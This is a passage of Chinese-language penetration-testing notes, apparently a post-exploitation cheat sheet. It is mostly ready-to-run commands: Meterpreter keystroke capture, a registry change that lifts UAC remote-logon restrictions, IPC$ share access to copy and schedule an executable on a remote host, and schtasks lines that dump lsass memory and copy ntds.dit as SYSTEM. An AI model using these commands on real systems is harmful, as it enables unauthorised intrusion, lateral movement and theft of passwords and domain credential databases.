   20. ##### 键盘记录

      Msf键盘记录在win不会创建新进程 

      ```shell
      meterpreter > keyscan_start 
      Starting the keystroke sniffer ...
      meterpreter > keyscan_dump 
      Dumping captured keystrokes...
      jamd<CR>
      meterpreter > keyscan_stop 
      Stopping the keystroke sniffer...
      ```

      Keylogger(tip:可以把管理工具，如navicat,putty,SecureCRT,PLSQL设置记住密码) ixkeylog,linux>=2.63 –redrain推荐 

  21. ##### 远程命令执行

      at\schtasks\psexec\wmic\sc\ps

      window 在工作组内用非 Administrator (SID!=500)其他管理员建立远程连接( wmi, ipc$ )，因为UAC限制，权限不是管理权限，可以改 LocalAccountTokenFilterPolicy = 1

      ```shell
      reg add  HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system 
      /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
      ```

  22. ##### ipc$

      开启共享，开445，139 port

      ```shell
      D:>net use \\192.168.1.254\c$ "pwd" /user:user     //连接192.168.1.254的IPC$共享，用unc路径
      如果是域用户 D:>net use \\192.168.1.254\c$ "pwd" /user:domain\user
      D:>copy srv.exe \\192.168.1.254\c$ //复制本地srv.exe到C根目录
      D:>net time \\192.168.1.254         //查时间
      D:>at　\\192.168.1.254 10:50 srv.exe //用at命令在10点50分启动srv.exe (这里360会拦截)
      D:>net use \\192.168.1.254\c$ /del 
      ```

  23. ##### Schtasks

      这里schtasks用着很舒服:

      ```shell
      schtasks /create /tn mytask /s ip /tr F:\Desktop.exe /sc minute /mo 1  /F 每分运行1次  普通权限即可， /s参数 远程ip 用于ipc连接后，远程主机执行 ，/F 表示有重名直接覆盖和创建或删除修改计划不再确认
      schtasks /create /tn mytask /tr F:\Desktop.exe /sc minute /mo 1 /ru system /F  管理员权限运行 如果程序有参数用引号"C:\procdump64.exe -accepteula -ma lsass.exe lsass.dmp" schtasks /Create /TN test /SC DAILY /ST 00:09 /TR notepad.exe /RU SYSTEM 内置命令前加"cmd /c"
      
      schtasks /create /tn mytask /tr "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy41\windows\NTDS\ntds.dit c:\ntds.dit 2>&1 > c:\windows\temp\1.txt" /sc minute /mo 1  /f /ru system /s 172.17.1.1
      C:\jboss-5.1.0.GA\bin\>schtasks /create /tn mytask /s 172.17.1.1 /tr "C:\procdump64.exe -accepteula -ma lsass.exe lsass.dmp" /sc minute /mo 2
      SUCCESS: The scheduled task "mytask" has successfully been created.
      